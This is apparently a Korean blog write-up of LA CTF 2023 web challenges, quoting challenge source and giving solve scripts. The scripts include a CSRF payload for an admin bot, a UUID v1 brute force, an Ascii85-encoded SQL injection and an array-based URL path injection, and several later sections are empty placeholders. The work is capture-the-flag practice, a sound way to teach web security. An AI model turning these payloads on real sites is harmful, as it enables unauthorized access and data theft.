



한번 풀어보고 싶었던 **LA CTF**의 **Web** 문제들을 풀어보았다. 업솔빙한 문제도 포함되어 있다.
::github{repo="uclaacm/lactf-archive"}
문제들은 여기서 확인할 수 있다.

`admin bot`은 로컬 환경에서 사용할 수 있도록 `domain`을 수정하였다.

# 2023

## web/college-tour (756 solves, 100 points)

### Description

Welcome to UCLA! To explore the #1 public college, we have prepared a scavenger hunt for you to walk all around the beautiful campus.

### Solution

1 - 2,4: `index.html` 파일을 보면 알 수 있다.

3: `index.css` 파일을 보면 알 수 있다.

5 - 6: `script.js` 파일을 보면 알 수 있다.

`lactf{j03_4nd_j0S3phIn3_bRU1n_sAY_hi}`

## web/metaverse (346 solves, 236 points)

### Description

Metaenter the metaverse and metapost about metathings. All you have to metado is metaregister for a metaaccount and you're good to metago.

You can metause our fancy new `metaadmin metabot` to get the admin to metaview your metapost!

### Solution

`index.js` 파일을 제공해준다.

파일을 살펴보면 `flag`가 `admin` 계정의 `displayName`에 저장되어 있다.

```javascript
accounts.set('admin', {
  password: adminpw,
  displayName: flag,
  posts: [],
  friends: [],
});
```

bot이 제공되었기 때문에 `xss`를 이용하여 `displayName`을 릭할 수 있지 않을까 싶었다.

그런데, 아래와 같이 `httpOnly`가 `true`이기 때문에 쿠키를 릭하는 방법 대신에 사이트 내에 있는 로직을 참조하는게 좋을 듯 했다.

```javascript
app.post('/login', (req, res) => {
  if (
    typeof req.body.username !== 'string' ||
    typeof req.body.password !== 'string'
  ) {
    res.redirect(
      '/login#' + encodeURIComponent('Please metafill out all the metafields.'),
    );
    return;
  }
  const username = req.body.username.trim();
  const password = req.body.password.trim();
  if (accounts.has(username) && accounts.get(username).password === password) {
    res.cookie('login', `${username}:${password}`, { httpOnly: true });
    res.redirect('/');
  } else {
    res.redirect(
      '/login#' + encodeURIComponent('Wrong metausername/metapassword.'),
    );
  }
});
```

마침 `friends`를 추가하는 기능이 있었다.
그런데, 초대한 사람한테는 안보이고, 초대받은 사람한테만 `displayName`을 보여준다.
따라서, `admin bot`을 통해서 친구 추가를 받고, 친구 리스트를 통해서 `displayName`을 확인할 수 있다.

```javascript
app.post('/friend', needsAuth, (req, res) => {
  res.type('text/plain');
  const username = req.body.username.trim();
  if (!accounts.has(username)) {
    res.status(400).send("Metauser doesn't metaexist");
  } else {
    const user = accounts.get(username);
    if (user.friends.includes(res.locals.user)) {
      res.status(400).send('Already metafriended');
    } else {
      user.friends.push(res.locals.user);
      res.status(200).send('ok');
    }
  }
});

app.get('/friends', needsAuth, (req, res) => {
  res.type('application/json');
  res.send(
    JSON.stringify(
      accounts
        .get(res.locals.user)
        .friends.filter((username) => accounts.has(username))
        .map((username) => ({
          username,
          displayName: accounts.get(username).displayName,
        })),
    ),
  );
});
```

일단, 여기까지 와서 보니 `xss`라기보단 `csrf`로 풀리는 문제였다.

`bmcyver`라는 계정을 만들고 아래 코드를 포스트하고, `admin bot`이 해당 페이지를 방문하게 하면 된다.

```html
<script>
  fetch('http://metaverse:8080/friend', {
    method: 'POST',
    body: 'username=bmcyver',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded',
    },
  });
</script>
```


`lactf{please_metaget_me_out_of_here}`

~~익스 코드 짜는 것보다 docker 네트워크 이슈 때문에 고생했다;;~~

## web/uuid hell (165 solves, 391 points)

### Description

UUIDs are the best! I love them (if you couldn't tell)!

### Solution

먼제 이 문제를 해결하기 위해서는 **uuid v1**에 대한 이해가 필요하다.

**uuid v1**은 `MAC 주소`와 `시간`을 기반으로 생성되는 **uuid**이다.

즉, **uuid**의 **randomness**는 상당히 떨어진다.

아래의 이미지를 참조하면 한번에 이해가 될 것이다.



이제 코드를 한번 분석해보자.

```javascript {34-37}
function randomUUID() {
  return uuid.v1({
    node: [0x67, 0x69, 0x6e, 0x6b, 0x6f, 0x69],
    clockseq: 0b10101001100100,
  });
}

function getUsers() {
  let output = '<strong>Admin users:</strong>\n';
  adminuuids.forEach((adminuuid) => {
    const hash = crypto
      .createHash('md5')
      .update('admin' + adminuuid)
      .digest('hex');
    output += `<tr><td>${hash}</td></tr>\n`;
  });
  output += '<br><br><strong>Regular users:</strong>\n';
  useruuids.forEach((useruuid) => {
    const hash = crypto.createHash('md5').update(useruuid).digest('hex');
    output += `<tr><td>${hash}</td></tr>\n`;
  });
  return output;
}

app.get('/', (req, res) => {
  let id = req.cookies['id'];
  if (id === undefined || !isUuid(id)) {
    id = randomUUID();
    res.cookie('id', id);
    useruuids.push(id);
    if (useruuids.length > 50) {
      useruuids.shift();
    }
  } else if (isAdmin(id)) {
    res.send(process.env.FLAG);
    return;
  }

  res.send('You are logged in as ' + id + '<br><br>' + getUsers());
});

app.post('/createadmin', (req, res) => {
  const adminid = randomUUID();
  adminuuids.push(adminid);
  if (adminuuids.length > 50) {
    adminuuids.shift();
  }
  res.send('Admin account created.');
});
```

유저의 경우에는 그냥 해시를 하고 있지만, 어드민의 경우에는 `admin`을 붙여서 해시를 하고 있다.
그리고 `uuid`는 최대 50개까지 저장할 수 있어 보인다.

```typescript
import { create } from '@web';
import { logger, md5 } from '@utils';
const r = create({
  baseURL: 'http://localhost:8080',
});

logger.info('Starting to create admins...');

for (let i = 0; i < 25; i++) {
  await r.post('/createadmin');
}
let currentUUID = await r
  .get<string>('/')
  .then((res) =>
    res.data.split('You are logged in as ')[1].split('<br>')[0].trim(),
  );

for (let i = 0; i < 25; i++) {
  await r.post('/createadmin');
}

const hashedUUIDs = await r
  .get<string>('/')
  .then((res) =>
    res.data
      .split('<strong>Admin users:</strong>')[1]
      .split('<br><br><strong>Regular users:</strong>')[0]
      .replaceAll('<tr><td>', '')
      .replaceAll('</td></tr>', '')
      .split('\n'),
  );

const header = currentUUID.substring(0, 2);
logger.info(`Current UUID: ${currentUUID}, Header: ${header}`);
currentUUID = currentUUID.slice(8);

const hexChars = '0123456789abcdef';
async function checkAdmin() {
  for (let i = 0; i < hexChars.length; i++) {
    logger.info(`Trying ${i + 1}/${hexChars.length}`);
    for (let j = 0; j < hexChars.length; j++) {
      for (let k = 0; k < hexChars.length; k++) {
        for (let l = 0; l < hexChars.length; l++) {
          for (let m = 0; m < hexChars.length; m++) {
            for (let n = 0; n < hexChars.length; n++) {
              const hex = `${hexChars[i]}${hexChars[j]}${hexChars[k]}${hexChars[l]}${hexChars[m]}${hexChars[n]}`;
              const hash = md5(`admin${header}${hex}${currentUUID}`);
              if (hashedUUIDs.includes(hash)) {
                r.setCookie('id', `${header}${hex}${currentUUID}`);
                logger.info(`Found the admin: ${hash}`);
                return;
              }
            }
          }
        }
      }
    }
  }
}

await checkAdmin();

await r.get('/').then((res) => logger.flag(res.data));
```



`lactf{uu1d_v3rs10n_1ch1_1s_n07_r4dn0m}`

## web/85_reasons_why (78 solves, 457 points)

### Description

If you wanna catch up on ALL the campus news, check out my new blog. It even has a reverse image search feature!

### Solution

플래그의 위치가 들어나 있지는 않지만, 아래 코드와 같이 `serialize_image`의 결과 값이 `format`을 통해 넘겨지면서 `sql injection`이 발생한다.

```python title="views.py" {12, 15-16}
@app.route('/image-search', methods=['GET', 'POST'])
def image_search():
    if 'image-query' not in request.files or request.method == 'GET':
        return render_template('image-search.html', results=[])

    incoming_file = request.files['image-query']
    size = os.fstat(incoming_file.fileno()).st_size
    if size > MAX_IMAGE_SIZE:
        flash("image is too large (50kb max)");
        return redirect(url_for('home'))

    spic = serialize_image(incoming_file.read())

    try:
        res = db.session.connection().execute(
            text("select parent as PID from images where b85_image = '{}' AND ((select active from posts where id=PID) = TRUE)".format(spic)))
    except Exception:
        return ("SQL error encountered", 500)

    results = []
    for row in res:
        post = db.session.query(Post).get(row[0])
        if (post not in results):
            results.append(post)

    return render_template('image-search.html', results=results)
```

```python title="utils.py"
def serialize_image(pp):
    b85 = base64.a85encode(pp)
    b85_string = b85.decode('UTF-8', 'ignore')

    # identify single quotes, and then escape them
    b85_string = re.sub('\\\\\\\\\\\\\'', '~', b85_string)
    b85_string = re.sub('\'', '\'\'', b85_string)
    b85_string = re.sub('~', '\'', b85_string)

    b85_string = re.sub('\\:', '~', b85_string)
    return b85_string
```

`spic`이 `'or 1=1 -- -`이러한 꼴로 나오게 만들어야 한다는 것이다.

근데, `base85`는 띄어쓰기를 지원하지 않기 때문에, `/**/`을 대신 사용한다.

참고로, `a85decode`와 `b85decode`는 다르며 각각 `Ascii85`, `Base85` 규칙을 따른다.
따라서, 아래 익스 코드에서는 `ascii85`를 사용하여 인코딩했다.

```typescript
import { create } from '@web';
import { logger } from '@utils';
//@ts-ignore
import ascii85 from 'ascii85';

const r = create({
  baseURL: 'http://localhost:8080',
});

const formData = new FormData();

const file = new File(
  [ascii85.decode(`/**/\\\\\\\\\\\\'/**/OR/**/1=1/**/--/**/-`)],
  '1.png',
  {
    type: 'image/png',
  },
);

formData.append('image-query', file);

await r.post<string>('/image-search', formData).then((res) => {
  logger.flag(res.data.match(/lactf{.*}/));
});
```

`lactf{sixty_four_is_greater_than_eigthy_five_a434d1c0e0425c3f}`

## web/california-state-police (40 solves, 480 points)

### Description

Stop! You're under arrest for making suggestive 3 letter acronyms!

`Admin Bot` (note: the `adminpw` cookie is HttpOnly and SameSite=Lax)

### Solution

<!-- TODO: add solution for california-state-police -->

## web/queue up! (34 solves, 483 points)

### Description

I've put the flag on a web server, but due to high load, I've had to put a virtual queue in front of it. Just wait your turn patiently, ok? You'll get the flag _eventually_.

Disclaimer: Average wait time is 61 days.

### Solution

대충 61일 기다리면 `flag`를 주겠다고 한다.


61일을 기다릴수는 없으니 한번 코드를 분석해보자.

먼저, `flagserver.js`를 살펴보면 `uuid`를 받아서 `uuid`의 형식을 확인하고, `http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/status`로 요청을 보내서 `true`가 반환되면 `flag`를 준다.

```javascript {9-18, 29-31}
app.post('/', async function (req, res) {
  let uuid;
  try {
    uuid = req.body.uuid;
  } catch {
    res.redirect(process.env.QUEUE_SERVER_URL);
    return;
  }
  if (uuid.length != 36) {
    res.redirect(process.env.QUEUE_SERVER_URL);
    return;
  }
  for (const c of uuid) {
    if (!/[-a-f0-9]/.test(c)) {
      res.redirect(process.env.QUEUE_SERVER_URL);
      return;
    }
  }

  const requestUrl = `http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/status`;
  try {
    const result = await (
      await fetch(requestUrl, {
        headers: new Headers({
          Authorization: 'Bearer ' + process.env.ADMIN_SECRET,
        }),
      })
    ).text();
    if (result === 'true') {
      console.log('Gave flag to UUID ' + uuid);
      res.send(process.env.FLAG);
    } else {
      res.redirect(process.env.QUEUE_SERVER_URL);
    }
  } catch {
    res.redirect(process.env.QUEUE_SERVER_URL);
  }
});
```

근데 좀 이상한 부분이 있다.

1. `uuid`의 `type`을 확인하는 부분이 없다.
2. `uuid`을 정규식으로 확인하는 것이 아닌 **문자 하나하나** 확인한다.
3. `uuid`가 배열일 경우 해당 문자열에 `-a-f0-9` 범위에 하나라도 포함되어 있으면 `true`를 반환한다.

위와 같은 이유로 `uuid`를 `string`이 아닌 배열이나 객체로 넘겨줄 수 있다.

다음으로 `queue.js`를 분석해보자.

```javascript {21, 34}
const adminOnly = function (req, res, next) {
  const authHeader = req.get('Authorization');
  if (authHeader === `Bearer ${process.env.ADMIN_SECRET}`) {
    next();
  } else {
    res.status(403);
    res.send(
      "Either this page doesn't exist or you don't have permission to view this page.",
    );
  }
};

app.use(adminOnly);

app.get('/api/heartbeat', async (req, res) => {
  res.send('online');
});

app.get('/api/:uuid/status', async (req, res) => {
  try {
    const user = await Queue.findByPk(req.params.uuid);
    res.send(user.served);
  } catch {
    res.send('false');
  }
});

app.get('/api/:uuid/bypass', async (req, res) => {
  try {
    const user = await Queue.findByPk(req.params.uuid);
    if (user === undefined) {
      res.send('uuid not found');
    } else {
      await user.update({ served: true });
      res.send('bypassed');
    }
  } catch {
    res.send('invalid uuid');
  }
});
```

1. `/api/:uuid/status`: `served`가 `true`이면 `true`를 반환한다.
2. `/api/:uuid/bypass`: `served`를 `true`로 바꾼다.

그렇다면 어떻게 `/api/:uuid/bypass`에 요청할 수 있을까?

`uuid`를 문자열이 아닌 **배열**로 넘겨주면 된다.

예를 들어 `uuid`가 `['<uuid>/bypass#', '0', ...., '0']`와 같은 배열이라면 `http://<url>/api/<uuid>/bypass#,0,.....,0/status` 이런 형식의 URL로 바뀌게 된다.

즉, 위와 같은 형식으로 보내면 `served`가 `true`로 바뀌게 되고 `flag`를 얻을 수 있다.

```typescript
import { logger } from '@utils';
import { create } from '@web';

const r = create({
  baseURL: 'http://localhost:3000',
  ignoreHttpErrors: true,
});

await r.post('/');

await r.post('/', {
  uuid: [`${r.getCookie('uuid')}/bypass#`, ...'1'.repeat(35).split('')],
});

await r
  .post('/', {
    uuid: r.getCookie('uuid'),
  })
  .then((res) => logger.flag(res.data));
```

`lactf{Byp455in_7he_Qu3u3}`

## web/hptla (40 solves, 487 points)

### Description

I made a new hyper-productive todo list app that limits you to 12 characters per item so you can stop wasting time writing overly intricate todo lists!

`Admin Bot` (note: the `adminpw` cookie is HttpOnly and SameSite=Lax)

### Solution

<!-- TODO: add solution for hptla -->

## web/zero-trust (24 solves, 488 points)

### Description

I was researching zero trust proofs in cryptography and now I have zero trust in JWT libraries so I rolled my own! That's what zero trust means, right?

Note: the flag is in `/flag.txt`

### Solution

<!-- TODO: add solution for zero-trust -->

# 2024

<!-- TODO: add challenges for 2024 -->

# 2025

<!-- TODO: add challenges for 2025 -->
